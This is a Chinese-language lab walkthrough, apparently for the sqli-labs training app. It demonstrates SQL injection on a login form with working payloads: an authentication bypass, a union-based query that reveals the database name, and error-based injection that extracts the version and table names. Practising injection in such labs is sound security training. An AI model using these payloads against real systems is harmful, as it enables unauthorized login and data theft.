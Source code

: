 ![截屏2021-06-08 下午5.49.32.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623145784299-641581fa-cd80-42e6-b140-4c644a212f1f.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=mGcwi&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%885.49.32.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=307022&status=done&style=none&title=&width=2604)<br />尝试在Username处输入 ' or 1 #<br />登录成功<br />![截屏2021-06-08 下午10.11.44.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623161583451-795502a6-6225-474e-861a-3d6e2970ee5c.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=W9W7r&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%8810.11.44.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=830117&status=done&style=none&title=&width=2604)<br />尝试利用hackbar，检查网页源码，发现post请求提交的用户名和密码的name分别为uname和passwd<br />![截屏2021-06-08 下午10.15.31.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623161829379-837adf4f-c071-492b-806d-829f43f17b5b.png#crop=0&crop=0&crop=1&crop=1&height=172&id=i3dTC&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%8810.15.31.png&originHeight=172&originWidth=638&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36240&status=done&style=none&title=&width=638)<br />在hackbar的Body栏输入 uname=admin&passwd=admin<br />成功登陆<br />![截屏2021-06-08 下午10.20.49.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623162124274-99af2c64-255e-4426-8ee3-51e3614a2f77.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=M8s1X&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%8810.20.49.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=689485&status=done&style=none&title=&width=2604)<br />burpsuite同理，略

利用union进行注入，Body中uname处填写 yyds' union select 1,database() #<br />![截屏2021-06-08 下午10.43.44.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623163437527-881276da-1eb0-47d1-afbc-050d380a9dbd.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=QMkKB&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-08%20%E4%B8%8B%E5%8D%8810.43.44.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=710245&status=done&style=none&title=&width=2604)<br />可以看到数据库为security<br />通过分析可以得出，这里的SQL语句为<br />@$sql="SELECT username, password FROM users WHERE username='admin'or'1'='1# and password='$passwd' LIMIT 0,1";<br />前面yyds处应设置一个数据库中没有的用户名来使界面显示置空，从而填充union select查询得出的数据

---

使用报错注入<br />报错注入所使用的count(*)和group by的处理过程，是先由group by将数据分组，然后再由count(*)统计每一组的数量<br />输入<br />uname=admin' union select 1,count(1) from information_schema.tables group by concat(floor(rand()*2),version()) %23&passwd=123456<br />可以获得版本<br />![截屏2021-06-09 下午9.33.27.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623245642296-b84fc129-0651-45a2-9817-f0347d93add3.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=Bggd2&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%889.33.27.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=581324&status=done&style=none&title=&width=2604)<br />加入0x7e使结果更便于查看<br />uname=admin' union select 1,count(1) from information_schema.tables group by concat(floor(rand()*2),0x7e,version(),0x7e) %23&passwd=123456<br />![截屏2021-06-09 下午9.36.26.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623245800903-ae9dfc12-d26f-4ed8-81af-65a7a5e9f169.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=gOPe3&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%889.36.26.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=583136&status=done&style=none&title=&width=2604)<br />查询表名（将version()处改变即可）<br />uname=admin' union select 1,count(1) from information_schema.tables group by concat(floor(rand()*2),0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e) %23&passwd=123456<br />![截屏2021-06-09 下午9.54.13.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623246866165-440f53e9-8ec1-4f3e-b928-a23aaa16c4b6.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=g33Ew&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-09%20%E4%B8%8B%E5%8D%889.54.13.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=598452&status=done&style=none&title=&width=2604)<br />依次改变limit后的第一个数字，依次查询得出所有的表
## 字符型注入